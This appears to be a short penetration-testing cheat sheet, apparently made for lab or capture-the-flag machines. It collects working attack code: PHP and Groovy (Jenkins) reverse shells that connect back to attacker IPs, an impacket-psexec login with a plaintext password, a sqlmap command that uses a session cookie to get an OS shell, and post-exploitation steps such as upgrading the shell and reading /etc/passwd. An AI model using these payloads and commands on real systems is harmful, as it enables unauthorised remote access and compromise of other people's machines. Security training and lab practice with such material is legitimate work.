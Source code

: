 ### Create reverse shell in different languages

- #### php
    ```php
    <?php
        $sock=fsockopen("10.10.15.211",4444);
        $proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
    ?>
    ```
- #### Groovy (jenkins)
    ```groovy
    String host="10.129.181.48";
    int port=4444;
    String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```

- samba
    ```bash
    impacket-psexec 'abcd:!passWord@10.129.32.122'
    ```
- sql injection
    ```bash
    sqlmap -u http://10.129.207.176/dashboard.php\?search\= --cookie="PHPSESSID=vkrvi768lbi9l638e7n8ovv03e" --os-shell
    ```

- More
  - https://www.revshells.com/
### Post reverse shell
- #### Setup stable shell interface
    ```bash
    alias ls='ls --color=always -lAh'
    python3 -c "import pty;pty.spawn('/bin/bash')"
    ```

- #### Check list
    ```bash
    cat /etc/passwd
    find / -group www-data 2>/dev/null | grep -v '/proc/'
    ```